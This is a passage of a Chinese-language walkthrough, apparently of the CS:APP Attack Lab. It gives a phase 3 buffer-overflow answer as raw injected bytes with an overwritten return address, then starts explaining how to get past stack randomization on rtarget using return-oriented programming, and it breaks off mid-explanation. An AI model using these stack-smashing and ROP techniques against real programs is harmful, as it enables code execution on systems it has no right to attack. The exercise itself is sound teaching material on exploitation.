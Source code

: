所以答案`phase3.txt`是:

```text
48 c7 c7 a8 dc 61 55 68 # 攻击代码从这里开始 %rip是逐行执行
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # getbuf结束后ret返回攻击代码的第一行
35 39 62 39 39 37 66 61 # 覆盖test函数栈帧，安全存放字符串
```

# Part 2

前面每次运行`ctarget`的时候，栈的地址都是一样的。

但是这里`rtarget`加入了栈随机化。

这就导致了`phase2`和`phase3`很难再通过找到`%rsp`的地址来执行我们自己注入的代码。因为每次运行`%rsp`的值都不一样。

所以得根据writeup中的`ROP`策略利用已有的字节码来执行需要的操作。

利用`farm.c`的代码，来看看有没有什么灵感。

```bash
gcc -c farm.c
objdump -d farm.o > farm.asm
```

## Phase 4

要求实现跟`Phase 2`一样的操作，只不过是在`rtarget`上运行。

并且只能使用前八个寄存器.(`%rax` ~ `%rdi`)

查看`rtarget`的反编译结果，跟`ctarget`没什么两样，问题就在于我们不能注入代码了，因为加入了栈随机化，我们不知道我们注入的代码在栈的地址。

总体而言的操作和`Phase 2`一样:

```text
attack2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	pushq  $0x4017ec
   a:	c3                   	retq   
```

然后我们能够控制的就是缓冲区的输入，替换掉ret的地址，然后一直链式反应，执行我们的代码.

比如`ret`的字节码是`c3`, `nop`的字节码是`90`

那么我们需要有这样的栈结构（尽管会破坏test函数栈）:

当`getbuf`执行完毕，`%rsp`加上`0x28`然后指向下面的`address`
